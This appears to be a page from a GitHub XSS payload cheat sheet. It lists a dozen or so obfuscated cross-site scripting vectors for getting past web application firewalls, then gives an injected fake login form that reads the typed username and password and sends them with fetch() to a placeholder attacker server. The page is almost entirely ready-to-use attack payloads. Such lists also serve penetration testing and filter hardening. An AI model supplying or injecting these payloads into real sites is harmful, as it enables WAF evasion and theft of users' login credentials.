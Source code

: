 ### WAF bypass
```
<sCriPt>alert``</sCRipT>
<sCriPt>eval('alert\x280\x29');</sCRipT>
<sCriPt>setTimeout('alert\x280\x29', 0);</sCRipT>
<sCriPt>Function('alert\x280\x29')();</sCRipT>
<sCriPt>window.location='javascript:alert(0)';</sCRipT>
<iNpUt &gt; id="x"onfocus="window['\a\l\ert']()" autofocus />
<iNpUt type=im&#x000000000000000000000000000000061;ge &gt; id="x"oNerRor="window['\a\l\ert']()" src />
<iNpUt %253e onfocus="&#x000000000000000000000000000000061;lert()" autofocus />
<iNpUt x="&quot; /> " id=""onfocus="window['\a\l\ert']()" autofocus/>
<iNpUt x="&#x22; /> " id=""onfocus="window['\a\l\ert']()" autofocus/> 
<iNpUt x='&#39; /> ' id=""onfocus="window['\a\l\ert']()" autofocus/>
<iNpUt /&#62; id=""onfocus="window['\a\l\ert']()" autofocus/>
<iMG src &gt; onerror="alert&#x000000028;&#x29;" />
<iMG src onload=%ff%00%ffAAA onerror=alert() />
```

### Fake authentication form sending credentials in keylogger mode

    <input type="text" name="username" id="username" /><input type="password" name="password" id="password" /><script>function sleep(ms){return new Promise(r => setTimeout(r,ms));}sleep(3000).then(()=> {var user =document.getElementById('username').value;var pass = document.getElementById('password').value;var user_pass = user+"_"+pass;fetch("https://[YOUR_SERVER]?u="+user_pass);});</script>

